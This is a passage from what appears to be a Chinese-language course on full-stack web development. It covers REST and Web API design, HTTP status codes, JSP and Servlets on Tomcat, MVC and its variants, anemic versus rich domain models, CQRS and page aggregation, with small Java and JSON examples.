最后，REST 还存在的一个更本质的问题，资源是它的核心概念，这原本带来了抽象和简洁的优势，但如今也成为了它的桎梏。或者说，前面反复提到的增删改查是它最拿手的本事，可是互联网的需求是千变万化的，远不只有简单的增删改查。有时需要一个复杂的多步操作，有时则需要一个异步事务（需要回调或者二次查询等等方式来实现），这些都没有一个完美统一的 REST 风格的解决方案。即便实现出来了，也可谓五花八门，同时失去了以往我们所熟知的 REST 的简洁优势。

**互联网总在变复杂，但矛盾的是，人们却希望互联网上的交互会不断变简单。**于是这引发了 REST 的流行，可即便 REST 再流行，依旧有它不适合的场景；SOAP 虽古老，依然有它的用武之地。

对于全栈工程师或者期待修炼全栈技能的你我来说，trade-off 是永恒的话题。另外，除了 SOAP 和 REST，其实我们还有其它选择。我将在下一讲，结合实例具体介绍如何选择技术，并设计和实现远程接口。

<h1 id="chapter5">05 | 权衡的艺术：漫谈Web API的设计</h1>

今天，我们该根据之前所学，来谈谈具体怎样设计 Web API 接口了。我们围绕的核心，是“权衡”（trade-off）这两个字，事实上，它不只是 Web API 接口设计的核心，还是软件绝大多数设计问题的核心。

## 概念

在一切开始之前，我们先来明确概念。什么是 Web API？

你应该很熟悉 API，即 Application Programming Interface，应用程序的接口。它指的就是一组约定，不同系统之间的沟通必须遵循的协议。使用者知道了 API，就知道该怎样和它沟通，使用它的功能，而不关心它是怎么实现的。

Web API 指的依然是应用程序接口，只不过它现在暴露在了 Web 的环境里。并且，我们通常意义上讲 Web API 的时候，无论是在 B/S（浏览器 / 服务器）模型还是 C/S（客户端 / 服务器）模型下，往往都心照不宣地默认它在服务端，并被动地接受请求消息，返回响应。

通常一个 Web API 需要包括哪些内容呢？

回答这个问题前，让我们先闭上眼想一想，如果没有“Web”这个修饰词，普通的 API 要包括哪些内容呢？嗯，功能、性能、入参、返回值……它们都对，看起来几乎是所有普通 API 的特性，在 Web API 中也全都存在。而且，因为 Web 的特性，它还具备我们谈论普通 API 时不太涉及的内容：

- 比如承载协议。这里可以有多个协议，因为协议是分层的。HTTP 协议和 TCP 协议就是并存的。

- 再比如请求和响应格式。Web API 将普通 API 的方法调用变成了网络通信，因此参数的传入变成了请求传入，结果返回变成了响应传出。

正是有了 Web API，网络中的不同应用才能互相协作，分布式系统才能正常工作，互联网才能如此蓬勃发展。而我们，不能只停留在“知道”的层面，还要去深入了解它们。

## Web API 的设计步骤

### 第一步：明确核心问题，确定问题域

和普通的 API 设计、程序的库设计一样，Web API 并不是东打一枪，西打一炮的。想想写代码的时候，我们还要让同类型的方法，以某种方式组织在类和对象中，实现功能上的内聚呢，一个类还要遵循单一职责的原则呢。

因此，一组 Web API，就是要专注于一类问题，核心问题必须是最重要的一个。

在上一讲中我举了个图书管理系统的例子，那么可以想象，图书的增删改查 API 就可以放到一起，而如果有一个新的 API 用于查询图书馆内部员工的信息，那么它显然应该单独归纳到另外的类别中，甚至是另外的系统中。

### 第二步：结合实际需求和限制，选择承载技术

这里有两件事情需要你考虑，一个是需求，一个是限制。我们虽然经常这样分开说，但严格来说，限制也是需求的一种。比方说，如果对网络传输的效率要求很高，时延要求很短，这就是需求，而且是非功能性的需求。

大多数功能性的需求大家都能意识到，但是一些非功能性的需求，或者一些“限制”就容易被忽略了。比如说，向前的兼容性，不同版本同时运行，鉴权和访问控制，库依赖限制，易测试性和可维护性，平滑发布（如新老接口并行），等等。

再来说说承载技术。承载技术指的是实现接口，以及它的请求响应传输所需要使用到的技术集合，比如 HTTP + JSON。我们前面提到的要求网络传输效率高、时延短，Protobuf 就是一个值得考察的技术；但有时候，我们更需要消息直观、易读，那么显然 Protobuf 就不是一个适合的技术。这里我们通过分析技术优劣来做选择，这就是权衡。

虽说 Web API 主要的工作在服务端，但在技术分析时还需要考虑客户端。特别是一些技术要求自动生成客户端，而有些技术则允许通过一定方式“定制”客户端（例如使用 DSL，Domain Specific Language，领域特定语言）。

### 第三步：确定接口风格

技术的选择将很大程度地影响接口的风格

角度一：易用性和通用性的平衡，或者说是设计“人本接口”还是“最简接口”。

比如一个图书管理的接口，一种设计是让其返回“流行书籍”，实际的规则是根据出版日期、借阅人数、引进数量等等做了复杂的查询而得出；而另一种设计则是让用户来自行决定和传入这几个参数，服务端不理解业务含义，接口本身保持通用。

**前者偏向“易用”，更接近人的思维；后者偏向“通用”，提供了最简化的接口。**虽说多数情况下我们还是会见到后者多一些，但二者却不能说谁对谁错，它们实际代表了不同的风格，各有优劣。

角度二：接口粒度的划分。

比如用户还书的过程包括：还书排队登记、检查书本状况、图书入库，这一系列过程是设计成一个大的接口一并完成，还是设计成三个单独的接口分别调用完成？

其实，这二者各有优劣。**设计成大接口往往可以增加易用性，便于内部优化提高性能（而且只需调用一次）；设计成小接口可以增加可重用性，便于功能的组合。**

### 第四步：定义具体接口形式

在上面这三步通用和共性的步骤完成之后，我们就可以正式跳进具体的接口定义中，去确定 URL、参数、返回和异常等通用而具体的形式了。还记得上一讲中对 REST 请求发送要点的分解吗？在它的基础上，我们将继续以 REST 风格为例，进行更深刻的讨论。

1. 条件查询

我们在上一讲的例子中使用 HTTP GET 请求从图书馆获取书本信息，从而完成增删改查中的“查”操作：

```
/books/123
/books/123/price
```

分别查询了 ID 为 123 的图书的全部属性，和该图书的价格信息。

但是，实际的查所包含的内容可远比这个例子多，比如不是通过 ID 查询，而是通过条件查询：

```
/books?author=Smith&page=2&pageSize=10&sortBy=name&order=desc
```

你看条件查询书籍，查询条件通过参数传入，指定了作者，要求显示第二页，每页大小为 10 条记录，按照书名降序排列。

除了使用 Query String（问号后的参数）来传递查询条件，多级路径也是一种常见的设计，这种设计让条件的层级关系更清晰。比如：

```
/category/456/books?author=Smith
```

它表示查询图书分类为“艺术”（编号为 456）的图书，并且作者是 Smith。看到这里，你可能会产生这样两个疑问。

疑问一：使用 ID 多不直观啊，我们能使用具体名称吗？

当然可以！**可以使用具备业务意义的字段来代替没有可读性的 ID，但是这个字段不可重复，也不宜过长**，比如例子中的 category 就可以使用名称，而图书，则可以使用国际标准书号 ISBN。于是 URI 就变成了：

```
/category/Arts/books?author=Smith
```

疑问二：category 可以通过 Query String 传入吗？比如下面这样：

```
/books?author=Smith&category=Arts
```

当然可以！“category”可以放置在路径中，也可以放置在查询参数串中。**这是 REST 设计中的一个关于设计上合理冗余的典型例子，可以通过不同的方式来完成相同的查询。**如果你学过 Perl，你可能听过“There’s more than one way to do it”这样的俗语，这是一样的道理，也是 REST 风格的一部分。

当然，从这也可以看出上一讲我们提到过的，REST 在统一性、一致性方面的约束力较弱。

2. 消息正文封装

有时候我们还需要传递消息正文，比如当我们使用 POST 请求创建对象，和使用 PUT 请求修改对象的时候，我们可以选择使用一种技术来封装它，例如 JSON 和 XML。通常来说，既然我们选择了 REST 风格，我们在相关技术的选择上也可以继续保持简约的一致性，因此 JSON 是更为常见的那一个。

```json
{
  "name": "...",
  "category": "Arts",
  "authorId": 999,
  "price": {
    "currency": "CNY",
    "value": 12.99
  },
  "ISBN": "...",
  "quantity": 100,
  ...
}
```

上面的消息体内容就反映了一本书的属性，但是，在设置属性的时候，往往牵涉到对象关联，上面这个小小的例子就包含了其中三种典型的方式：

- 传递唯一业务字段：例如上面的 category 取值是具备实际业务意义的“Arts”；

- 传递唯一 id：例如上面的 authorId，请注意，这里不能传递实际作者名，因为作者可能会重名；

- 传递关联对象：例如上面的 price，这个对象通常可以是一个不完整的对象，这里指定了货币为人民币 CNY，也指定了价格数值为 12.99。

3. 响应和异常设计

HTTP 协议中规定了返回的状态码，我想你可能知道一些常见的返回码，大致上，它们分为这样五类：

- 1xx：表示请求已经被接受，但还需要继续处理。这时你可能还记得在 [第 03 讲] 中，我们将普通的 HTTP 请求升级成为 WebSocket 的过程，101 就是确认连接升级的状态码。

- 2xx：表示请求已经被接受和成功处理。最常见的就是 204，表示请求成功处理，且返回中没有正文内容。

- 3xx：表示重定向，请客户端使用重定向后的新地址继续请求。其中，301 是永久重定向，而 302 是临时重定向，新地址一般在响应头“Location”字段中指定。

- 4xx：表示客户端错误。服务端已经接到了请求，但是处理失败了，并且这个锅服务端不背。这可能是我们最熟悉的返回码了，比如最常见的 404，表示页面不存在。常见的还有 400，表示请求格式错误，以及 401，鉴权和认证失败。

- 5xx：表示服务端错误。这回这个处理失败的锅在服务端这边。最常见的是 500，通用的和未分类的服务端内部错误，还有 503，服务端暂时不可用。

错误处理是 Web API 设计中很重要的一部分，我们需要告知用户是哪个请求出错了，什么时间出错了，以及为什么出错。比如：

```json
{
    "errorCode": 543,
    "timeStamp": 12345678,
    "message": "The requested book is not found.",
    "detailedInfomation": "...",
    "reference": "https://...",
    "requestId": "..."
}
```

在这个例子中，你可以看到上面提到的要素都具备了，注意这里的 errorCode 不是响应中的 HTTP 状态码，而是一个具备业务意义的内部定义的错误码。在有些设计里面，也会把 HTTP 状态码放到这个正文中，以方便客户端处理，这种冗余的设计当然也是可以的。

## 总结思考

还记得我们是通过怎样的步骤来设计 Web API 的吗？其实可以总结为八个字：**问题、技术、风格和定义**，由问题到实现，由概要到细节。

<h1 id="chapter7">07 | 解耦是永恒的主题：MVC框架的发展</h1>

## JSP 和 Servlet

## 1. 概念介绍

如果你有使用 Java 作为主要语言开发网站的经历，那么你一定听过别人谈论 JSP 和 Servlet。其中，Servlet 指的是服务端的一种 Java 写的组件，它可以接收和处理来自浏览器的请求，并生成结果数据，通常它会是 HTML、JSON 等常见格式，写入 HTTP 响应，返回给用户。

至于 JSP，它的全称叫做 Java Server Pages，它允许静态的 HTML 页面插入一些类似于“<% %>”这样的标记（scriptlet），而在这样的标记中，还能以表达式或代码片段的方式，嵌入一些 Java 代码，在 Web 容器响应 HTTP 请求时，这些标记里的 Java 代码会得到执行，这些标记也会被替换成代码实际执行的结果，嵌入页面中一并返回。这样一来，原本静态的页面，就能动态执行代码，并将执行结果写入页面了。

- 第一次运行时，系统会执行编译过程，并且这个过程只会执行一次：JSP 会处理而生成 Servlet 的 Java 代码，接着代码会被编译成字节码（class 文件），在 Java 虚拟机上运行。

- 之后每次就只需要执行运行过程了，Servlet 能够接受 HTTP 请求，并返回 HTML 文本，最终以 HTTP 响应的方式返回浏览器。

这个过程大致可以这样描述

> 编译过程：JSP 页面 → Java 文件（Servlet）→ class 文件（Servlet）

> 运行过程：HTTP 请求 + class 文件（Servlet）→ HTML 文本

## 2. 动手验证

安装java和tomcat

[https://www.cnblogs.com/lpgit/p/10929507.html]

好，现在启动 Tomcat：

```
catalina run
```

在浏览器中访问 http://localhost:8080/，你应该能看到 Tomcat 的主页面：


接着，我们在 ${CATALINA_HOME}/webapps/ROOT 下建立文件 hello_world.jsp，写入：

```jsp
Hello world! Time: <%= new java.util.Date() %>
```

接着，访问 http://localhost:8080/hello_world.jsp，你将看到类似下面这样的文本：

```
Hello world! Time: Sat Jul 27 20:39:19 PDT 2019
```

嗯，代码被顺利执行了。可是根据我们学到的原理，我们应该能找到这个 JSP 文件生成的 Java 和 class 文件，它们应该藏在某处。没错，现在进入如下目录 ${CATALINA_HOME}/work/Catalina/localhost/ROOT/org/apache/jsp，你可以看到这样几个文件：

```
index_jsp.java
hello_005fworld_jsp.java
index_jsp.class
hello_005fworld_jsp.class
```

你看，前两个 Java 文件就是根据 JSP 生成的 Servlet 的源代码，后两个就是这个 Servlet 编译后的字节码。以 index 开头的文件就是 Tomcat 启动时你最初看到的主页面，而以 hello 开头的这两个文件则完全来自于我们创建的 hello_world.jsp。

现在你可以打开 hello_005fworld_jsp.java，如果你有 Java 基础，那么你应该可以看得懂其中的代码。代码中公有类 hello_005fworld_jsp 继承自 HttpJspBase 类，而如果你查看 Tomcat 的 API 文档，你就会知道，原来它进一步继承自 HttpServlet 类，也就是说，这个自动生成的 Java 文件，就是 Servlet。

在 117 行附近，你可以找到我们写在 JSP 页面中的内容，它们以流的方式被写入了 HTTP 响应：

```java
out.write("Hello world! Time: ");
out.print( new java.util.Date() );
out.write('\n');
```

通过自己动手，我想你现在应该更加理解 JSP 的工作原理了。你看，JSP 和 Servlet 并不是完全独立的“两个人”，**JSP 实际工作的时候，是以 Servlet 的形式存在的**，也就是说，前者其实是可以转化成后者的。

## 3. 深入理解

好，那么问题来了，我们为什么不直接使用 Servlet，而要设计出 JSP 这样的技术，让其在实际运行中转化成 Servlet 来执行呢？

最重要的原因，**从编程范型的角度来看，JSP 页面的代码多是基于声明式（Declarative），而 Servlet 的代码则多是基于命令式（Imperative）**，这两种技术适合不同的场景。这两个概念，最初来源于编程范型的分类，声明式编程，是去描述物件的性质，而非给出指令，而命令式编程则恰恰相反。

比方说，典型的 JSP 页面代码中，只有少数一些 scriptlet，大部分还是 HTML 等格式的文本，而 HTML 文本会告诉浏览器，这里显示一个按钮，那里显示一个文本输入框，随着程序员对代码的阅读，可以形象地在脑海里勾勒出这个页面的样子，这也是声明式代码的一大特点。全栈工程师经常接触到的 HTML、XML、JSON 和 CSS 等，都是声明式代码。你可能注意到了，这些代码都不是使用编程语言写的，而是使用标记语言写的，但是，编程语言其实也有声明式的，比如 Prolog。

再来说命令式代码，在 Servlet 中，它会一条一条语句告诉计算机下一步该做什么，这个过程就是命令式的。我们绝大多数的代码都是命令式的。声明式代码是告诉计算机“什么样”，而不关注“怎么做”；命令式代码则是告诉计算机“怎么做”，而不关注“什么样”。

为什么需要两种方式？因为人的思维是很奇特的，**对于某些问题，使用声明式会更符合直觉，更形象，因而更接近于人类的语言；而另一些问题，则使用命令式，更符合行为步骤的思考模式，更严谨，也更能够预知机器会怎样执行。**

计算机生来就是遵循命令执行的，因此声明式的 JSP 页面会被转化成一行行命令式的 Servlet 代码，交给计算机执行。可是，你可以想象一下，如果 HTML 那样适合声明式表述的代码，程序员使用命令式来手写会是怎样的一场噩梦——代码将会变成无趣且易错的一行行字符串拼接。

## MVC 的演进

我想你一定听过 MVC 这种经典的架构模式，它早在 20 世纪 70 年代就被发明出来了，直到现在，互联网上的大多数网站，都是遵从 MVC 实现的，这足以见其旺盛的生命力。MVC 模式包含这样三层：

- 控制器（Controller），恰如其名，主要负责请求的处理、校验和转发。

- 视图（View），将内容数据以界面的方式呈现给用户，也捕获和响应用户的操作。

- 模型（Model），数据和业务逻辑真正的集散地。

你可能会想，这不够全面啊，这三层之间的交互和数据流动在哪里？别急，MVC 在历史上经历了多次演进，这三层，再加上用户，它们之间的交互模型，是逐渐变化的。哪怕在今天，不同的 MVC 框架的实现在这一点上也是有区别的。

## 1. JSP Model 1

JSP Model 1 是整个演化过程中最古老的一种，请求处理的整个过程，包括参数验证、数据访问、业务处理，到页面渲染（或者响应构造），全部都放在 JSP 页面里面完成。JSP 页面既当爹又当妈，静态页面和嵌入动态表达式的特性，使得它可以很好地容纳声明式代码；而 JSP 的 scriptlet，又完全支持多行 Java 代码的写入，因此它又可以很好地容纳命令式代码。


## 2. JSP Model 2

在 Model 1 中，你可以对 JSP 页面上的内容进行模块和职责的划分，但是由于它们都在一个页面上，物理层面上可以说是完全耦合在一起，因此模块化和单一职责无从谈起。和 Model 1 相比，Model 2 做了明显的改进。

- JSP 只用来做一件事，那就是页面渲染，换言之，JSP 从全能先生转变成了单一职责的页面模板；

- 引入 JavaBean 的概念，它将数据库访问等获取数据对象的行为封装了起来，成为业务数据的唯一来源；

- 请求处理和派发的活交到纯 Servlet 手里，它成为了 MVC 的“大脑”，它知道创建哪个 JavaBean 准备好业务数据，也知道将请求引导到哪个 JSP 页面去做渲染。


通过这种方式，你可以看到，原本全能的 JSP 被解耦开了，分成了三层，这三层其实就是 MVC 的 View、Model 和 Controller。于是殊途同归，MVC 又一次进入了人们的视野，今天的 MVC 框架千差万别，原理上却和这个版本基本一致。

上面提到了一个概念 JavaBean，随之还有一个常见的概念 POJO，这是在 Java 领域中经常听到的两个名词，但有时它们被混用。在此，我想对这两个概念做一个简短的说明。

- JavaBean 其实指的是一类特殊的封装对象，这里的“Bean”其实指的就是可重用的封装对象。它的特点是可序列化，包含一个无参构造器，以及遵循统一的 getter 和 setter 这样的简单命名规则的存取方法。

- POJO，即 Plain Old Java Object，还是最擅长创建软件概念的 Martin Fowler 的杰作。它指的就是一个普通和简单的 Java 对象，没有特殊限制，也不和其它类有关联（它不能继承自其它类，不能实现任何接口，也不能被任何注解修饰）。

所以，二者是两个类似的概念，通常认为它们之间具备包含关系，即 JavaBean 可以视作 POJO 的一种。但它们二者也有一些共性，比如，它们都是可以承载实际数据状态，都定义了较为简单的方法，概念上对它们的限制只停留在外在表现（即内部实现可以不“plain”，可以很复杂，比如 JavaBean 经常在内部实现中读写数据库）。

## 3. MVC 的一般化

JSP Model 2 已经具备了 MVC 的基本形态，但是，它却对技术栈有着明确限制——Servlet、JSP 和 JavaBean。今天我们见到的 MVC，已经和实现技术无关了，并且，在 MVC 三层大体职责确定的基础上，其中的交互和数据流动却是有许多不同的实现方式的。

不同的 MVC 框架下实现的 MVC 架构不同，有时即便是同一个框架，不同的版本之间其 MVC 架构都有差异（比如 ASP.NET MVC），在这里我只介绍最典型的两种情况，如果你在学习的过程中见到其它类型，请不要惊讶，重要的是理解其中的原理。

## 第一种：


上图是第一种典型情况，这种情况下，用户请求发送给 Controller，而 Controller 是大总管，需要主动调用 Model 层的接口去取得实际需要的数据对象，之后将数据对象发送给需要渲染的 View，View 渲染之后返回页面给用户。

在这种情况下，Controller 往往会比较大，因为它要知道需要调用哪个 Model 的接口获取数据对象，还需要知道要把数据对象发送给哪个 View 去渲染；View 和 Model 都比较简单纯粹，它们都只需要被动地根据 Controller 的要求完成它们自己的任务就好了。

## 第二种：


上图是第二种典型情况，请和第一种比较，注意到了区别没有？这种情况在更新操作中比较常见，Controller 调用 Model 的接口发起数据更新操作，接着就直接转向最终的 View 去了；View 会调用 Model 去取得经过 Controller 更新操作以后的最新对象，渲染并返回给用户。

在这种情况下，Controller 相对就会比较简单，而这里写操作是由 Controller 发起的，读操作是由 View 发起的，二者的业务对象模型可以不相同，非常适合需要 CQRS（Command Query Responsibility Segregation，命令查询职责分离）的场景，我在 [第 08 讲] 中会进一步介绍 CQRS。

## 4. MVC 的变体

MVC 的故事还没完，当它的核心三层和它们的基本职责发生变化，这样的架构模式就不再是严格意义上的 MVC 了。这里我介绍两种 MVC 的变体：MVP 和 MVVM。

MVP 包含的三层为 Model、View 和 Presenter，它往往被用在用户的界面设计当中，和 MVC 比起来，Controller 被 Presenter 替代了。

- Model 的职责没有太大的变化，依然是业务数据的唯一来源。

- View 变成了纯粹的被动视图，它被动地响应用户的操作来触发事件，并将其转交给 Presenter；反过来，它的视图界面被动地由 Presenter 来发起更新。

- Presenter 变成了 View 和 Model 之间的协调者（Middle-man），它是真正调度逻辑的持有者，会根据事件对 Model 进行状态更新，又在 Model 层发生改变时，相应地更新 View。



MVVM 是在 MVP 的基础上，将职责最多的 Presenter 替换成了 ViewModel，它实际是一个数据对象的转换器，将从 Model 中取得的数据简化，转换为 View 可以识别的形式返回给 View。View 和 ViewModel 实行双向绑定，成为命运共同体，即 View 的变化会自动反馈到 ViewModel 中，反之亦然。关于数据双向绑定的知识我还会在 [第 10 讲] 中详解。


<h1 id="chapter8">08 | MVC架构解析：模型（Model）篇</h1>

## 概念

首先我们要了解的是，我们总在谈“模型”，那到底什么是模型？

简单说来，**模型就是当我们使用软件去解决真实世界中各种实际问题的时候，对那些我们关心的实际事物的抽象和简化。**比如我们在软件系统中设计“人”这个事物类型的时候，通常只会考虑姓名、性别和年龄等一些系统用得着的必要属性，而不会把性格、血型和生辰八字等我们不关心的东西放进去。

更进一步讲，我们会谈领域模型（Domain Model）。“领域”两个字显然给出了抽象和简化的范围，不同的软件系统所属的领域是不同的，比如金融软件、医疗软件和社交软件等等。如今领域模型的概念包含了比其原本范围定义以外更多的内容，**我们会更关注这个领域范围内各个模型实体之间的关系。**

MVC 中的“模型”，说的是“模型层”，它正是由上述的领域模型来实现的，可是当我们讲这一层的时候，它包含了模型上承载的实实在在的业务数据，还有不同数据间的关联关系。因此，**我们在谈模型层的时候，有时候会更关心领域模型这一抽象概念本身，有时候则会更关心数据本身。**

## 贫血模型和充血模型

其实，这两兄弟是 Martin Fowler 造出来的概念。要了解它们，得先知道这里讲的“血”是什么。

这里的“血”，就是逻辑。它既包括我们最关心的业务逻辑，也包含非业务逻辑 。因此，**贫血模型（Anemic Domain Model），意味着模型实体在设计和实现上，不包含或包含很少的逻辑。**通常这种情况下，逻辑是被挪了出去，由其它单独的一层代码（比如这层代码是“Service”）来完成。

严格说起来，贫血模型不是面向对象的，因为对象需要数据和逻辑的结合，这也是贫血模型反对者的重要观点之一。如果主要逻辑在 Service 里面，这一层对外暴露的接口也在 Service 上，那么事实上它就变成了面向“服务”的了，而模型实体，实际只扮演了 Service API 交互入参出参的角色，或者从本质上说，它只是遵循了一定封装规则的容器而已。

**这时的模型实体，不包含逻辑，但包含状态，而逻辑被解耦到了无状态 Service 中。**既然没有了状态，Service 中的方法，就成为过程式代码的了。请注意，不完全面向对象并不代表它一定“不好”，事实上，在互联网应用设计中，贫血模型和充血模式都有很多成功的使用案例，且非常常见。

比如这样的一个名为 Book 的类：

```java
public class Book {
    private int id;
    private boolean onLoan;
    
    public int getId() {
        return this.id;
    }
    public void setId(int id) {
        this.id = id;
    }
    public boolean isOnLoan() {
        return this.loan;
    }
    public void setOnLoan(boolean onLoan) {
        this.onLoan = onLoan;
    }
}
```

你可以看到，它并没有任何实质上的逻辑在里面，方法也只有简单的 getters 和 setters 等属性获取和设置方法，它扮演的角色基本只是一个用作封装的容器。

那么真正的逻辑，特别是业务逻辑在哪里呢？有这样一个 Service：

```java
public class BookService {
    public Book lendOut(int bookId, int userId, Date date) { ... }
}
```

这个 lendOut 方法表示将书从图书馆借出，因此它需要接收图书 id 和 用户 id。在实现中，可能需要校验参数，可能需要查询数据库，可能需要将从数据源获得的原始数据装配到返回对象中，可能需要应用过滤条件，这里的内容，就是逻辑。

现在，我们再来了解一下充血模型（Rich Domain Model）。**在充血模型的设计中，领域模型实体就是有血有肉的了，既包含数据，也包含逻辑，具备了更高程度的完备性和自恰性**，并且，充血模型的设计才是真正面向对象的。在这种设计下，我们看不到 XXXService 这样的类了，而是通过操纵有状态的模型实体类，就可以达到数据变更的目的。

```java
public class Book {
    private int id;
    private boolean onLoan;
    public void lendOut(User user, Date date) { ... }
    ... // 省略属性的获取和设置方法
}
```

在这种方式下，lendOut 方法不再需要传入 bookId，因为它就在 Book 对象里面存着呢；也不再需要传出 Book 对象作为返回值，因为状态的改变直接反映在 Book 对象内部了，即 onLoan 会变成 true。

也就是说，Book 的行为和数据完完全全被封装的方法控制起来了，中间不会存在不应该出现的不一致状态，因为任何改变状态的行为只能通过 Book 的特定方法来进行，而它是可以被设计者严格把控的。

也就是说，Book 的行为和数据完完全全被封装的方法控制起来了，中间不会存在不应该出现的不一致状态，因为任何改变状态的行为只能通过 Book 的特定方法来进行，而它是可以被设计者严格把控的。

但是请注意，**无论是充血模型还是贫血模型，它和 Model 层做到何种程度的解耦往往没有太大关系**。比如说这个 lendOut 方法，在某些设计中，它可以拆分出去。对于贫血模型来说，它并非完全属于 BookService，可以拿到新建立的“借书关系”的服务中去，比如：

```java
public class LoanService {
    public Loan add(int bookId, int userId, Date date) { ... }
}
```

这样一来，借书的关系就可以单独维护了，借书行为发生的时候，Book 和 User 两个实体对应的数据都不需要发生变化，只需要改变这个借书关系的数据就可以了。对于充血模型来说，一样可以做类似拆分。

## 内部层次划分

软件的耦合和复杂性问题往往都可以通过分层解决，模型层内部也一样，但是我们需要把握其中的度。**层次划分过多、过细，并不利于开发人员严格遵从和保持层次的清晰，也容易导致产生过多的无用样板代码，从而降低开发效率。**下面是一种比较常见的 Model 层，它是基于贫血模型的分层方式。



在这种划分方式下，每一层都可以调用自身所属层上的其它类，也可以调用自己下方一层的类，但是不允许往上调用，即依赖关系总是“靠上面的层”依赖着“靠下面的层”。最上面三层是和业务模型实体相关的，而最下面一层是基础设施服务，和业务无关。从上到下，我把各层依次简单介绍一下：

- 第一层 Facade，提供粗粒度的接口，逻辑上是对 Service 功能的组合。有时候由于事务需要跨多个领域模型的实体控制，那就适合放在这里。举例来说，创建用户的时候，我们同时免费赠送一本电子书给用户，我们既要调用 UserService 去创建用户对象，也要调用 SubscriptionService 去添加一条订购（赠送）记录，而这两个属于不同 Service 的行为需要放到一处 Facade 类里面做统一事务控制。在某些较小系统的设计里面，Service 和 Facade 这两层是糅合在一起的。

- 第二层 Service，前面已经介绍了，通常会存放仅属于单个领域模型实体的操作。

- 第三层数据访问层，在某些类型的数据访问中需要，比如关系型数据库，这里存放数据库字段和模型对象之间的 ORM（Object-Relational Mapping，对象关系映射）关系。

- 第四层基础设施层，这一层的通用性最好，必须和业务无关。某些框架会把基础设施的工作给做了，但有时候也需要我们自己实现。比如 S3Service，存放数据到亚马逊的分布式文件系统。

## CQRS 模式

你也许听说过数据库的读写分离，其实，在模型的设计中，也有类似读写分离的机制，其中最常见的一种就叫做 CQRS（Command Query Responsibility Segregation，命令查询职责分离）。

一般我们设计的业务模型，会同时被用作读（查询模式）和写（命令模式），但是，实际上这两者是有明显区别的，在一些业务场景中，我们希望这两者被分别对待处理，那么这种情况下，CQRS 就是一个值得考虑的选项。

为什么要把命令和查询分离？我举个例子来说明吧，比如这样的贫血模型:

```java
class Book {
    private long id;
    private String name;
    private Date publicationDate;
    private Date creationDate;
    ... // 省略其它属性和 getter/setter 方法
}
```

那么，相应地，就有这样一个 BookService：

```java
class BookService {
    public Book add(Book book);
    public Pagination<Book> query(Book book);
}
```

这个接口提供了两个方法：

一个叫做 add 方法，接收一个 book 对象，这个对象的 name 和 publicationDate 属性会被当做实际值写入数据库，但是 id 会被忽略，因为 id 是数据库自动生成的，具备唯一性，creationDate 也会被忽略，因为它也是由数据库自动生成的，表示数据条目的创建时间。写入数据库完成后，返回一个能够反映实际写入库中数据的 Book 对象，它的 id 和 creationDate 都填上了数据库生成的实际值。

你看，这个方法，实际做了两件事，一件是插入数据，即写操作；另一件是返回数据库写入的实际对象，即读操作。

另一个方法是 query 方法，用于查询，这个 Book 入参，被用来承载查询参数了 。比方说，如果它的 author 值为“Jim”，表示查询作者名字为“Jim”的图书，返回一个分页对象，内含分页后的结果列表。

但这个方法，其实有着明显的问题。这个问题就是，查询条件的表达，并不能用简单的业务模型很好地表达。换言之，这个模型 Book，能用来表示写入，却不适合用来表示查询。为什么呢？

比方说，你要查询出版日期从 2018 年到 2019 年之间的图书，你该怎么构造这个 Book 对象？很难办对吧，因为 Book 只能包含一个 publicationDate 参数，这种“难办”的本质原因，是模型的不匹配，即这个 Book 对象根本就不适合用来做查询调用的模型。

在清楚了问题以后，解决方法 CQRS 就自然而然产生了。**简单来说，CQRS 模式下，模型层的接口分为且只分为两种：**

- 命令（Command），它不返回任何结果，但会改变数据的状态。

- 查询（Query），它返回结果，但是不会改变数据的状态。

也就是说，它把命令和查询的模型彻底分开了。上面的例子 ，使用 CQRS 的方式来改写一下，会变成这样：

```java
class BookService {
    public void add(Book book);
    public Pagination<Book> query(Query bookQuery);
}
```

你看，在 add 操作的时候，不再有返回值；而在 query 操作的时候，入参变成了一个 Query 对象，这是一个专门的“查询对象”，查询对象里面可以放置多个查询条件，比如：

```java
Query bookQuery = new Query(Book.class);
query.addCriteria(Criteria.greaterThan("publicationDate", date_2018));
query.addCriteria(Criteria.lessThan("publicationDate", date_2019));
```

读到这里，不知道你有没有联想到这样两个知识点：

第一个知识点，在 [第 04 讲] 我们学习 REST 风格的时候，我们把 HTTP 的请求从两个维度进行划分，是否幂等，以及是否安全。**按照这个角度来考量，CQRS 中的命令，可能是幂等的（例如对象更新），也可能不是幂等的（例如对象创建），但一定是不安全的；CQRS 中的查询，一定是幂等的，且一定是安全的。**

第二个知识点，在 [第 07 讲] 我们学习 MVC 的一般化，其中的“第二种”典型情况时，Controller 会调用 Model 层的，执行写入操作；而 View 层会调用 Model 层，执行只读操作——看起来这不就是最适合 CQRS 的一种应用场景吗？

**所以说，技术确实都是相通的！！！！**

<h1 id="chapter9">09 | MVC架构解析：视图（View）篇</h1>

## 概念

首先，我想问一问，什么是视图？有程序员说是界面，有程序员说是 UI（User Interface），这些都对，但是都不完整。

我认为 **MVC 架构中的视图是指将数据有目的、按规则呈现出来的组件**。因此，如果返回和呈现给用户的不是图形界面，而是 XML 或 JSON 等特定格式组织呈现的数据，它依然是视图，而用 MVC 来解决的问题，也绝不只是具备图形界面的网站或者 App 上的问题。

## 页面聚合技术

虽然视图的定义实际更宽泛，但是我们平时讲到的视图，多半都是指“页面”。这里，就不得不提花样繁多的页面聚合技术了。

回想一下，之前我们在讲 Model 层的时候，是怎样解耦的？我们的办法就是继续分层，或是模块化；而对于 View 层来说，我们的办法则是拆分页面，分别处理，最终聚合起来。具体来说，这里提到的页面聚合，是指将展示的信息通过某种技术手段聚合起来，并形成最终的视图呈现给用户。页面聚合有这样两种典型类型。

- **结构聚合：指的是将一个页面中不同的区域聚合起来，这体现的是分治的思想**。例如一个页面，具备页眉、导航栏、目录、正文、页脚，这些区域可能是分别生成的，但是最后需要把它们聚合在一起，再呈现给用户。

- **数据 - 模板聚合：指的是聚合静态的模板和动态的数据，这体现的是解耦的思想**。例如有的新闻网站首页整个页面的 HTML 是静态的，用户每天看到的样子都是差不多的，但每时每刻的新闻列表却是动态的，是不断更新的。

请注意这两者并不矛盾，很多网站的页面都兼具这两种聚合方式。

## 服务端和客户端聚合方式的比较

客户端聚合技术的出现远比服务端晚，因为和服务端聚合不同，这种聚合方式对于客户端的运算能力，客户端的 JavaScript 技术，以及浏览器的规范性都有着明确的要求。但是，客户端聚合技术却是如今更为流行的技术，其原因包括：

**架构上，客户端聚合达成了客户端 - 服务端分离和模板 - 数据聚合这二者的统一，这往往可以简化架构，保持灵活性。**

